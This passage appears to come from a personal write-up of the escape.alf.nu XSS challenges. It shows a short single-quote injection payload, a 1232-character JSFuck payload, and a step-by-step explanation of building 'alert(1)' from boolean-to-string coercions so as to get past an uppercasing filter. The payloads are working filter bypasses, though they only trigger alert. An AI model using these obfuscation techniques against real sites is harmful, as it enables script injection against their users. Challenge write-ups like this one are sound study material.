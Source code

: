 __Alright, I'll admit I had to look this up after ~2 hours pondering what functions to call__
[This blog](http://www.pwntester.com/blog/2014/01/06/escape-alf-nu-xss-challenges-write-ups-part-148/) notes that single quotes don't get escaped. And we can have one before the `#`, so we can turn the first bits of the script into just a string and ignore it.
I feel bad for not figuring this out myself...


### win with:
```
'#';alert(1)//
```
14 characters


## Skandia
### filter
```javascript
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

### comments
A _lazy_ way to win this is to use a quirk of Javascript shown off in [jsFuck](http://www.jsfuck.com/)
```
");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//
```
But that's 1232 characters long and really jsfuck is just meant to show off you can do _everything_ in javascript with only 6 characters: `[]()+!`

If we relax that a bit, but follow similar ideas, we can get a shorter one:
in fact, lets build it from the ground up to explain it:
we need the characters `a`, `l`, `e`, `r` and `t`. You may notice that the word `true` and `false` contain all those characters:
`![] === false`: get a `false` value
`![]+[] === "false"`: `+[]` forces it to a string (could use `+''` as well, but lets stick to 'near jsfuck' syntax)
`(![])+[]+(!![])+[] === "falsetrue"` we have a string with everything we need, now to pull it out.
`((![])+[]+(!![])+[])[1]+((![])+[]+(!![])+[])[2]+((![])+[]+(!![])+[])[4]+((![])+[]+(!![])+[])[6]+((![])+[]+(!![])+[])[5] === "alert"`
`((![])+[]+(!![])+[])[1]+((![])+[]+(!![])+[])[2]+((![])+[]+(!![])+[])[4]+((![])+[]+(!![])+[])[6]+((![])+[]+(!![])+[])[5] + '(1)' === "alert(1)"` we have the string, now we need to wrap it in in the `Function()` constructor and call it!
But remember, you can do multiple statements inline, so we can shorten that by declaring a variable:
`_=((![])+[]+(!![])+[]);_[1]+_[2]+_[4]+_[6]+_[5]+'(1)' === "alert(1)"`
To call this, we need the `Fuction()` constructor. We can get reference from most inbuilt methods:
`[].sort.constructor === Function`
Lets build those strings from our string:
`_=(![]+[]+!![]+{}+[][![]]);_[3]+_[10]+_[6]+_[5] === "sort"`